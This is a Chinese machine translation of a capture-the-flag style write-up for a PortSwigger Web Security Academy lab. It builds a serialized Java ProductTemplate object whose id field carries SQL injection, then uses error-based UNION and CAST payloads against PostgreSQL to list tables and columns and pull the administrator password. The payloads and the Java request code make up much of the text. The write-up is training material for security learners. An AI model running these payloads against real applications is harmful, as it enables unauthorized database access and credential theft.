






# 不安全的反序列化— Web 挑战—第 1 部分

> 原文：<https://infosecwriteups.com/insecure-deserialization-web-challenges-part-1-7d1b7339ca?source=collection_archive---------0----------------------->

这篇文章是关于在 swigger web academy 上解决不安全反序列化领域的专家级挑战。我将分三个部分讨论这个问题，解决三个挑战。希望每个部分都小而简单。


图片来自斯韦格港网络学院

# 为 Java 反序列化开发定制小工具链

## 挑战

[https://portswigger . net/we B- security/deserialization/exploining/la B- deserialization-developing-a-custom-gadget-chain-for-Java-deserialization](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-java-deserialization)

## 解决办法

## 第一步

一旦我们使用 wiener:peter 登录应用程序，就会生成一个会话 cookie。



登录发布请求

如果您查看会话 cookie 值，它以 rO0 开始，这清楚地表明 cookie 值是 base64 编码的 java 序列化对象。问题陈述中也提到了。(所以没什么大不了的:)

让我们解码会话 cookie。



我们能看到一些东西

1.  序列化的 java 类名— AccessTokenUser
2.  类字段 AccessToken、username 及其值

## 第二步

现在，如果我们查看 html 页面的源代码，我们可以看到这段注释代码`<! — <a href=/backup/AccessTokenUser.java>Example user</a> →` 。我们在/backup 端点找到两个 java 文件。



AccessTokenUsre.java 是被序列化并在会话 cookie 中返回的类。请注意用户名和 accessToken 字段。

```
public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}
```

现在让我们看看 ProductTemplate.java 的源代码。`ProductTemplate.readObject()`方法调用`inputStream.defaultReadObject();` 反序列化序列化 ProductTemplate 对象时会调用 readObject()方法。我们还可以看到一个构造函数初始化字段`id`。

```
private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }
private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject(); 
```

还有一点需要注意，有一个 sql 查询直接在查询中使用了这个 `id`字段。这里清楚 sql 注入的情况。

```
Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
```

所以我们的利用步骤应该是

1.  从前面获得的产品模板 java 文件创建一个序列化对象。将我们的有效负载放入 id 字段，然后对序列化对象进行 base64 编码
2.  在会话 cookie 中使用步骤 1 中的 base64 编码值。一旦这个值被反序列化(readObject()将被调用)，我们就可以使用 id 字段中的有效负载来利用 sql 注入。
3.  将执行 Sql 查询，因为它在反序列化期间将调用的 readObject()方法中
4.  **注意**`private transient Product product`是瞬态的，所以这个字段不会被序列化。
5.  一旦我们利用 sql 注入提取管理员密码，我们就删除 carlos 帐户并解决实验室问题。

## 第三步

**创建序列化对象**

Port Swigger 已经提供了示例 java 文件，可以用来创建序列化对象[https://github . com/ports Swigger/serialization-examples/tree/master/Java/solution](https://github.com/PortSwigger/serialization-examples/tree/master/java/solution)。复制本地文件夹中的文件并编译它们。



如果您查看产品模板 java 文件(用于创建 serialize 对象的文件)。重要的是设置 id 字段值的构造函数。

```
// All logic removed from ProductTemplate as it's not needed for serialization
package data.productcatalog;
import java.io.Serializable;public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;private final String id;
    private transient Product product;public ProductTemplate(String id)
    {
        this.id = id;
    }
```

我们将从 Main.java 实例化 ProductTemplate 对象，调用有效负载在 `id`字段值中的构造函数，序列化该对象并进行 base64 编码。这个 base64 编码的值可以在会话 cookie 中使用。

```
public static void main(String[] args) throws Exception {
ProductTemplate originalObject = new ProductTemplate(args[0]); **//** **Take command line argument and instantiate the Object**String serializedObject = serialize(originalObject); **// serialize the object** System.out.println("Serialized object: " + serializedObject);ProductTemplate deserializedObject = deserialize(serializedObject); **// this is not required. Just for testing purpose** }private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray()); **// base64 encoding**
    }
```

编译 java 类

```
javac  data/productcatalog/Product.java
javac  data/productcatalog/ProductTemplate.java
javac  Main.java
```

我们将创建一个 id 值为`'`的序列化对象—单引号。



将生成的 base64 值粘贴到会话 cookie 中，并观察响应中的错误。我们在响应中得到一个 sql 错误，指出 postgres 是数据库名称。



## 步骤 4

**利用 sql 注入**

我修改了 Main.java，从类本身直接调用 GET /my-account，以避免每次在 cookie 中复制粘贴 burpsuite 中的有效负载，同时我们尝试利用 sql 注入。修改过的 Main.java 文件。

```
import data.productcatalog.ProductTemplate;
import java.io.*;
import java.util.Base64;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;
import java.net.URI;class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate(args[0]);String serializedObject = serialize(originalObject);System.out.println("Serialized object: " + serializedObject);ProductTemplate deserializedObject = deserialize(serializedObject);System.out.println("Deserialized object ID: " + deserializedObject.getId());

 ** HttpClient client = HttpClient.newHttpClient();

  HttpRequest request = HttpRequest.newBuilder().uri(URI.create("**[**https://acf01fdc1f53ee6a818f73cf0000005d.web-security-academy.net/my-account**](https://acf01fdc1f53ee6a818f73cf0000005d.web-security-academy.net/my-account)**")).headers("Cookie", "session="+serializedObject).build();

  HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());

  System.out.println("\n Body: " + response.body());**
    }private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            [@SuppressWarnings](http://twitter.com/SuppressWarnings)("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```

在创建有效负载时，我们必须意识到，语法正确的查询不会反映响应中的细节，相反，我们会得到一个类强制转换异常。所以 sql 异常是第一个异常，类转换异常在下一个异常中。例如，当我们使用 id 作为 123 时，响应将是

```
<p class=is-warning>java.lang.ClassCastException: class data.productcatalog.ProductTemplate cannot be cast to class data.session.token.AccessTokenUser (data.productcatalog.ProductTemplate and data.session.token.AccessTokenUser are in unnamed module of loader &apos;app&apos;)</p>
```

但是，如果我们的查询不正确，那么它将不会执行，我们将无法枚举数据库表和其中的数据。我们将在 sql 查询中把一个带有字符串值的列转换成一个整数，让它产生错误并把这个值(列值)反映在响应中。

**列数**

但是首先，我们将使用 union query 首先找出 products 表中的列数。使用 union 有效负载`"' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from information_schema.tables --"`增加 NULL 的数量来查找列的数量，结果是 8。

**查找表名**

有效载荷— `java Main "' UNION SELECT NULL,NULL,NULL,NULL,CAST(table_name AS numeric),null,null,null from information_schema.tables -- "`

响应`<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;**users**&quot;</p>` 中的错误将表名显示为用户

**列名**

有效载荷 1 — `' UNION SELECT NULL,NULL,NULL,NULL,CAST(column_name AS numeric),null,null,null from information_schema.columns where table_name = 'users' --`

响应 1 中的错误— `<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;**username**&quot;</p>`

有效载荷 2 — `'UNION SELECT NULL,NULL,NULL,NULL,CAST(column_name AS numeric),null,null,null from information_schema.columns where table_name = 'users' and column_name !='username'--`

响应 2 中的错误— `<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;**password**&quot;</p>`

现在我们知道了表名和列名，我们可以提取用户 administrator 的密码。

**提取管理员密码**

有效载荷— `'UNION SELECT NULL,NULL,NULL,NULL,CAST(password AS numeric),null,null,null from users where username='administrator' --`

响应错误— `<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;**qb4qfsrkyddqmyka0uz6**&quot;</p>`

我们得到了管理员密码作为响应(这对于不同的实例是不同的)。

现在，我们可以以管理员身份登录并删除 carlos 帐户来解决实验室问题。

我将尝试创建一个漏洞脚本来自动化密码检索部分，而不是尝试手动 sql 注入负载。

目前就这些。如果我犯了什么错误，请评论，你可以随时联系我[https://www.linkedin.com/in/niraj-kumar-choubey-7351b892/](https://www.linkedin.com/in/niraj-kumar-choubey-7351b892/)并向我问好。